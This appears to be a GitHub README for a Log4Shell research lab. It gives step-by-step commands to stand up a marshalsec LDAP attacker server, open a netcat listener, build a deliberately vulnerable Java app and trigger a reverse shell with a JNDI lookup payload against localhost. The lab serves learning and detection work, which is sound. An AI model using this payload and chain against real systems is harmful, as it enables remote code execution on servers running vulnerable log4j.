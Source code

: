 # Log4Shell Research Lab 🚧

A basic research lab to learn more about `Log4Shell`:
* [CVE-2021-45105](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45105)
* [CVE-2021-45046](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45046)
* [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228)

## Used By

* [Microsoft Sentinel To-Go! Log4Shell Demo](https://github.com/OTRF/Microsoft-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-44228-Log4Shell)

## Research notes

* I took the [following notes](research-notes/README.md) while learning about `Log4Shell`. I hope they are helpful! 🍻.
* Depending on which CVE you want to test, use the following research notes to simulate a few scenarios:
    * [CVE-2021-44228 Simulation](research-notes/2021-12-11_01-CVE-2021-44228-simulation.md)
    * [CVE-2021-45046 Simulation](research-notes/2022-01-03_01-CVE-2021-45046-simulation.md)

## A Basic POC - CVE-2021-44228

### Clone Repo

```
sudo su
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```

### Install Docker

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

### Run Docker Compose File

```
cd log4jshell-lab/attacker
docker-compose -f MarshalsecLDAP-NginxWebServer.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```

## Trigger CVE-2021-44228

This scenario simulates an attacker using the log4j [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228) RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```

### Compile Vulnerable Java Application

**Docker**
```
cd log4jshell-lab/victim/vuln-apps/others/basicJar

docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Manually**
```
cd log4jshell-lab/victim/vuln-apps/others/basicJar
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Security Datasets

* [Basic JNDI Lookup PCAP](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)

## References
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://www.youtube.com/watch?v=Y8a5nB-vy78
* https://github.com/veracode-research/rogue-jndi
* https://community.microfocus.com/cyberres/fortify/f/fortify-discussions/317555/the-perils-of-java-deserialization
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://github.com/pimps/JNDI-Exploit-Kit
* https://github.com/pimps/ysoserial-modified
* https://ldap.com/ldap-urls/
* https://github.com/pwntester/SerialKillerBypassGadgetCollection
* https://www.ibm.com/docs/en/content-manager/8.5.0?topic=ldap-server-configuration-storing-java-objects
* https://docs.microsoft.com/en-us/windows/win32/ad/enabling-schema-changes-at-the-schema-master
* https://forensicitguy.github.io/analyzing-log4shell-muhstik/
* https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode
* https://www.jackson-t.ca/runtime-exec-payloads.html
* https://github.com/woodpecker-appstore/log4j-payload-generator/tree/master